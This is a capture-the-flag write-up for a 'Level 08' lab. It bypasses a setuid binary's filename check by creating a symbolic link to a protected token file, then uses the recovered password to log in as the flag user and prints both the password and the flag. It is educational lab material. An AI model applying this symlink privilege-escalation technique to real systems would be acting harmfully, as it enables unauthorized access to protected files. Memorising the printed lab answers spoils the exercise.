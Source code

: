 # Level 08

## Resolution

As `level08`, running `ls` gives us a binary called `level08` and a file named `token` which can't be read inside our home folder. Using the binary gives us:

```shell
  $> ./level08
  ./level08 [file to read]
  $> ./level08 token
  You may not access 'token'
```

We want to know what it actually does, so using `ltrace` once again we can see the following.

```shell
  $> ltrace ./level08 token 
  __libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
  strstr("token", "token")                           = "token"
  printf("You may not access '%s'\n", "token"You may not access 'token'
  )       = 27
  exit(1 <unfinished ...>
  +++ exited (status 1) +++
```

> It appears that if [`strstr()`](https://linux.die.net/man/3/strstr) returns something we can't read the file. So we must avoid using `"token"` in the path of the file we want to open.

Creating a **symbolic link** with a different name would help us bypass the read permission on the file and the `strstr()` check. Finaly if we use `ls -l` to get more infos...

```shell
  $> ls -l
  total 16
  -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
  -rw-------  1 flag08 flag08    26 Mar  5  2016 token 
```

User `flag08` owns both files so once redirected to the `token` file via symbolic link, it will open the file without any problems.

```shell
  $> ln -s /home/user/level08/token /tmp/password
  $> ./level08 /tmp/password
  quif5eloekouj29ke0vouxean
```

This looks like a password, use it to log as `flag08` and run `getflag` to finish this level.

```shell
  $> su flag08
  Password: quif5eloekouj29ke0vouxean
  $> getflag
  Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

So, `25749xKZ8L7DkSCwJkT9dyv6f` is the flag for this level.

## Ressources

- [Symbolic link vulnerabilities](https://lettieri.iet.unipi.it/hacking/symlinks.pdf)